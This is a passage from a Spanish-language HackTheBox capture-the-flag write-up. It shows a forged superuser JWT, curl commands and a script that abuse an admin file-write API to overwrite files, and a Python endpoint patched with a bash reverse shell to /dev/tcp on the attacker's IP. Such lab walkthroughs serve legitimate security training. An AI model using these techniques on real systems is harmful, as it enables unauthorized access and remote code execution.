```
'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjY4MjU1NjY3LCJpYXQiOjE2Njc1NjQ0NjcsInN1YiI6IjEyIiwiaXNfc3VwZXJ1c2VyIjp0cnVlLCJndWlkIjoiODllNzg4ZjgtZDdhMC00NmM2LTk2MGEtNWNmYjM4ZWJkMjE3IiwiZGVidWciOnRydWV9.NPicg25nww0_6-F5yUY_ox6PYSLxLb_-WPqflTQZG5A'
```
Cambiamos la cookie

-------------------------
# Part 5: Sobreescribiendo el código fuente

Como seria /home/htb/Test ? ```echo -n "/home/htb/test" | base64 -w0 | tr -d "=" # -> L2hvbWUvaHRiL3Rlc3Q=```
```console
└─$ curl -X 'POST' 'http://10.10.11.162/api/v1/admin/file/L2hvbWUvaHRiL3Rlc3Q%3D' \
  -H 'accept: application/json' -H 'Content-Type: application/json' -d '{"file": "Test"}' \
  -H "Authorization: bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjY4MjU1NjY3LCJpYXQiOjE2Njc1NjQ0NjcsInN1YiI6IjEyIiwiaXNfc3VwZXJ1c2VyIjp0cnVlLCJndWlkIjoiODllNzg4ZjgtZDdhMC00NmM2LTk2MGEtNWNmYjM4ZWJkMjE3IiwiZGVidWciOnRydWV9.NPicg25nww0_6-F5yUY_ox6PYSLxLb_-WPqflTQZG5A"
{"result":"success"}
└─$ ./files.sh /home/htb/test # -> {"file":"Test"} 
```
Es script de antes lo modificamos ligeramente para crear writting.sh (un script para escritura):
```bash
#!/bin/bash
bearer="eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjY4MjU1NjY3LCJpYXQiOjE2Njc1NjQ0NjcsInN1YiI6IjEyIiwiaXNfc3VwZXJ1c2VyIjp0cnVlLCJndWlkIjoiODllNzg4ZjgtZDdhMC00NmM2LTk2MGEtNWNmYjM4ZWJkMjE3IiwiZGVidWciOnRydWV9.NPicg25nww0_6-F5yUY_ox6PYSLxLb_-WPqflTQZG5A"

curl -X 'POST' "http://10.10.11.162/api/v1/admin/file/$(echo -n $1 | base64 -w0)" -H 'accept: application/json' -H 'Content-Type: application/json' -d '{"file": "ESto es una prueba"}' -H "Authorization: bearer $bearer"; echo

./files.sh $1
```
```console
└─$ ./writting.sh /home/htb/test
{"result":"success"}
{"file":"Esto es una prueba"}
```

Intenté meter mi clave publica id_rsa.pub en known hosts pero no hubo suerte. (Puse en la parte de data la llave) y en la ruta **/home/htb/.ssh/known_hosts**.
Lo unico que queda es que como tenemos es codigo fuente, meter una linea de reverse shell en el y sobreescribirlo con el tema de subida de archivos. 

Tenemos que escribir a una ruta a la que luego podamos acceder. Por ejemplo un usuario -> ```http://10.10.11.162/api/v1/user/666```
El archivo de los tres que determina esto es ```/home/htb/app/api/v1/endpoints/user.py```
```python
@router.get(\"/{user_id}\", status_code=200, response_model=schemas.User)
    if user_id == -666:
        import os; os.system('bash -c "bash -i >& /dev/tcp/10.10.14.12/443 0>&1"')
```
El marron esque hay que subir esto con curl en data. Es decir hay que trasnformar todo el contenido en un one-liner que meter dentro de un enorme curl
Abri el user.py modificado con vim y aplique estos comandos:
```
:%s/"/\\"/g # -> Sustituye la " por \" (o sea escápala)
:%s/'/'\\''/g # -> la comilla simple como da mas probelmas mejor asi ->  '\''
:%s/\n/\\n/g # -> el salto de linea por un caracter de salto de linea
```
Con todo eso queda en un oneliner, el archivo se llamaria
```echo -n "/home/htb/app/api/v1/endpoints/user.py" | base64 # -> L2hvbWUvaHRiL2FwcC9hcGkvdjEvZW5kcG9pbnRzL3VzZXIucHk=```

![](/assets/images/htb-backend/backendtwo5.PNG)
```